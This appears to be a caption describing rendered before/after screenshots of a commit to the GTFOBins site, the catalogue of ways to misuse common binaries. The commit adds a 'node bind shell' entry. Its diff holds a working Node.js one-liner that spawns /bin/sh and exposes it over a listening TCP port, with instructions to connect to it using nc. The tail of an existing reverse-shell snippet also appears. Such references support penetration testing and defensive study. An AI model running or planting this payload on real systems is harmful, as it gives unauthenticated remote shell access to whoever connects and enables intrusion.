

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/node.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1034 px from its top, so only the background shows below that.

Commit message:
Add node bind shell

```diff
--- a/_gtfobins/node.md
+++ b/_gtfobins/node.md
@@ -20,4 +20,14 @@ functions:
           sh.stdout.pipe(this);
           sh.stderr.pipe(this);
         });'
+  bind-shell:
+    - description: Run `nc 10.0.0.1 12345` to connect to the shell on the other end.
+      code: |
+        export LPORT=12345
+        node -e 'sh = require("child_process").spawn("/bin/sh");
+        require("net").createServer(function (client) {
+          client.pipe(sh.stdin);
+          sh.stdout.pipe(client);
+          sh.stderr.pipe(client);
+        }).listen(process.env.LPORT);'
 ---
```
